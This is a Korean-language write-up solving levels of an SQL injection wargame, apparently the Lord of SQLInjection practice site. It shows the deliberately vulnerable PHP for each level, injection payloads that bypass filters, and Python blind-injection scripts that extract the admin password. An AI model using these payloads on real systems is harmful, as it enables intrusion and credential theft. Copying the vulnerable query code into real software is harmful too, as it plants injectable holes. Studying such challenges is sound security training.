


## Gremlin
가장 기본적인 SQL-i 공격 기법이다.
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
### exploit
아무 필터링도 하지 않는 취약한 코드를 사용한다.<br>
'or 1=1을 입력하여 쿼리를 참으로 만드는데 성공했다.
```sql
select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'
-> select id from prob_gremlin where id='' or 1=1-- -' and pw='{$_GET[pw]}
payload=' or 1=1-- -
```
<br>

## Cobolt
```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```
### exploit
1번 문제와 다른 점은 pw를 md5를 사용해 암호화한다는 것과 조회된 id가 admin인지 확인한다는 것이다.
이 부분은 조회할 id를 admin으로 명시하고 pw 부분을 주석 처리하여 우회한다.
```sql
select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')
-> select id from prob_cobolt where id='admin'-- -' and pw=md5('{$_GET[pw]')
payload = admin'-- -
```
<br>

## Goblin
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```
### exploit
이번 문제는 **'**, **"**, **`** 을 필터링한다.<br>
no에 1을 입력하면 hello guest가 출력된다. 이를 통해 guest의 no값이 1이라는 것을 알 수 있다.<br>
이를 이용하여 일부러 틀린 값을 입력하여 guest가 조회되지 않게 한다.<br> 
그 후 id값을 admin으로 변경하여 질의되도록 만들어야한다.<br>
하지만 **'** , **"** 가 필터링되어있기에 문자열을 입력할 수 없다.<br>
이를 우회하기 위해 admin의 16진수 값인 **0x61646d696e** 을 입력하면 문제를 해결할 수 있다.
```sql
select id from prob_goblin where id='guest' and no={$_GET[no]}
-> select id from prob_goblin where id='guest' and no=0 or id=0x61646d696e-- -
payload = 0 or id=0x61646d696e-- -
```
<br>

## Orc
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```
<br>

별다른 필터링은 존재하지 않지만 __addslashes()__ 라는 처음보는 함수가 추가되었다.
<br>
공식 문서에 따르면 **'** , **"** , **\\** , **Null**같은 글자를 이스케이프해서 반환한다고 한다.

**이스케이프(escape):** 특수문자나 제어문자를 일반 문자로써 사용할 수 있게 해준다.<br>
\ + 해당 문자를 해서 사용한다. ex) \\' , \\"

### exploit
id가 admin으로 고정되어 있다. admin의 pw만 알아낸다면 문제를 해결할 수 있다.<br>

admin의 pw를 알아내기 위해 **python**을 사용한 **브루트포스**를 이용할 것이다.

```python
import requests

url = 'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
cookie = {'PHPSESSID': 'Cookie 값'}

for i in range(20):
  param = {'pw': f"' or length(pw)={i}#"}
  res = requests.get(url, params=param, cookies=cookie)
  if 'Hello admin' in res.text:
    print(i)

length = 8
password = ''
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
    query = {'pw': f"' or substr(pw, {str(len)}, 1)='{chr(pw)}'#"}
    res = requests.get(url, params=query, cookies=cookie)
    if 'Hello admin' in res.text:
      password = password + chr(pw)
      print(f'{len} : {chr(pw)}')
      break

print(password)
```
이 코드를 사용하면 pw를 알 수 있다. 하지만 출력값을 그대로 입력하면 문제를 해결할 수 없다.<br>
mysql에서는 대소문자를 구분하지 않아서 소문자로 변환하여 입력해야 문제를 해결할 수 있다.
<br>
<br>

## Wolfman
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```
### exploit
공백이 필터링되어있어서 사용할 쿼리 값에 공백이 있으면 안된다.<br>
공백만 주의하면 쉽게 문제를 해결할 수 있다.

[공백을 우회하는 방법](https://binaryu.tistory.com/31)은 이 블로그를 참고하여 만들었다.

%0b를 사용하여 공백을 우회하였다.
```sql
select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'
-> select id from prob_wolfman where id='guest' and pw=''%0bor%0bid='admin'--%0b-'
payload = '%0bor%0bid='admin'--%0b-
```
<br>

## Darkelf
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```
### exploit
**or**과 **and**를 필터링하기 때문에 기존에 사용하던 쿼리를 사용할 수 없다.<br>
하지만 or과 and를 ||과 &&로 대체하여 쉽게 우회할 수 있다.

```sql
select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'
-> select id from prob_darkelf where id='guest' and pw=''|| id='admin'-- -'
payload = ' || id='admin'-- -
```
<br>

## Orge
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

### exploit
Orc 문제와 비슷하지만 **or**과 **and**를 필터링하는 점이 다르다.<br>
Orc 문제를 풀때 사용했던 파이썬 코드에 or, and 필터링 우회를 적용하면 문제를 해결할 수 있다.

```python
import requests

url = 'https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php'
cookie = {'PHPSESSID': 'Cookie 값'}

for i in range(20):
  param = {'pw': f"' || length(pw)={i}#"}
  res = requests.get(url, params=param, cookies=cookie)
  if 'Hello admin' in res.text:
    print(i)

length = 8
password = ''
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
    query = {'pw': f"' || substr(pw, {str(len)}, 1)='{chr(pw)}'#"}
    res = requests.get(url, params=query, cookies=cookie)
    if 'Hello admin' in res.text:
      password = password + chr(pw)
      print(f'{len} : {chr(pw)}')
      break

print(password)
```
이 코드를 사용하면 pw를 알 수 있지만 Orc 문제와 똑같이 소문자로 변환하여 입력해야 문제를 해결할 수 있다.
<br><br>

## Troll
```php
<?php  
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match("/admin/", $_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```

### explot
이번에는 id에서 **'**와 **admin**을 필터링한다.<br>
하지만 id를 admin으로 만들어야 문제를 해결할 수 있다.

이 문제를 해결하기 위한 방법으로는 두번째 preg_match함수를 살펴보면 admin을 필터링하는데 뒤에 i가 붙어있지 않다.<br>
preg_match에서 i의 역할은 대문자로 입력된 admin도 구분없이 필터링한다는 의미다.<br>
mysql은 대소문자를 구별하지 않기 때문에 이를 이용하면 admin 필터링을 우회할 수 있다.

```sql
select id from prob_troll where id='{$_GET[id]}'
-> select id from prob_troll where id='ADMIN'
payload = ADMIN
```
<br>

## Vampire
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  $_GET[id] = strtolower($_GET[id]);
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```
<br>
str_replace라는 처음보는 함수가 사용되었는다. <br>
이 함수는 첫번째 매개변수로 사용된 문자를 세번째 매개변수에서 찾아서 두번째 매개변수로 변경한다.


### exploit
이번에도 **'**를 필터링하고 **str_replace**라는 함수가 사용되었다.
이 함수를 우회하는 방법으로는 str_replace함수를 지나서도 문자열이 유지되도록 하면된다.

```sql
select id from prob_vampire where id='{$_GET[id]}'
-> select id from prob_vampire where id='adadminmin'
payload = adadminmin
```
adadminmin을 입력하면 str_replace가 적용되어 admin이 지워져도 ad와 min이 합쳐져 admin이라는 문자열을 입력할 수 있다.
<br><br>

## Skeleton
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```
### exploit
별다른 필터링은 없지만 쿼리문 뒤에 and 1=0이 있어 어떤 입력값을 넣어도 거짓으로 만든다.
```sql
select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0
-> select id from prob_skeleton where id='guest' and pw=''or id='admin'-- -' and 1=0
payload = ' or id='admin'-- -
```
악의적인 입력값을 입력한 후에 -- -로 쿼리의 뒷부분을 주석처리하여 동작하지 않도록 만든다.
<br><br>

## Golem
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```
### exploit
**or** , **and** , **substr(** , **=** 을 필터링하고 있다.

필터링에 주의하며 앞선 Orc, Orge문제와 같이 파이썬 코드를 사용하면 된다.

or : || ,  and : && , substr() : mid() , = : like를 사용해서 우회 할 수 있다.
```python
import requests

url = 'https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php'
cookie = {'PHPSESSID': 'Cookie 값'}

for i in range(20):
  param = {'pw': f"' || length(pw) like {i}#"}
  res = requests.get(url, params=param, cookies=cookie)
  if 'Hello admin' in res.text:
    print(i)

length = 8
password = ''
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
    query = {'pw': f"' || mid(pw, {str(len)}, 1) like '{chr(pw)}'#"}
    res = requests.get(url, params=query, cookies=cookie)
    if 'Hello admin' in res.text:
      password = password + chr(pw)
      print(f'{len} : {chr(pw)}')
      break

print(password.lower())
```
<br>

## Darknight
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```
### exploit
**'** , **substr** , **ascii** , **=** 을 필터링하고 있다.

필터링에 주의하며 앞선 Orc, Orge문제와 같이 파이썬 코드를 사용하면 된다.

' : ", substr() : mid() , = : like를 사용해서 우회 할 수 있다.
```python
import requests

url = 'https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php'
cookie = {'PHPSESSID': 'ovbfdu14h0vaeamskdlr10nttu'}

for i in range(20):
  param = {'no': f'"" || length(pw) like {i}#'}
  res = requests.get(url, params=param, cookies=cookie)
  if 'Hello admin' in res.text:
    print(i)

length = 8
password = ''
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
    query = {'no': f'"" || mid(pw, {str(len)}, 1) like "{chr(pw)}"#'}
    res = requests.get(url, params=query, cookies=cookie)
    if 'Hello admin' in res.text:
      password = password + chr(pw)
      print(f'{len} : {chr(pw)}')
      break

print(password.lower())
```

## Bugbear
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```
### exploit
Darkknight 문제와 비슷하지만 필터링하는 것이 더 많다.
비슷한 방법으로 필터링을 우회하면 문제를 해결할 수 있다.

```python
import requests as r

url = 'https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php'
cookie = {"PHPSESSID" : 'cookie 값'}

for i in range(1, 100):
    param = {'no': f'0/**/||/**/id/**/in/**/("admin")/**/&&/**/length(pw)<{i}#'}
    res = r.get(url, params=param, cookies=cookie)    
    if 'Hello admin' in res.text:
        length = i - 1
        print(f"pw\'s length is {length}")
        break

length = 8
password = ''
for len in range(1,length+1):
    for pw in range(ord('0'), ord('z')):
        param = {'no' : f'1/**/||/**/id/**/in/**/("admin")/**/&&/**/mid(pw,{str(len)},1)/**in/**/("{chr(pw)}")#'}
        res = r.get(url, params = param, cookies = cookie)
        if 'Hello admin' in res.text:
            print(f'{len} : {chr(pw)}')
            password = password + chr(pw)
            break

print(password.lower())
```

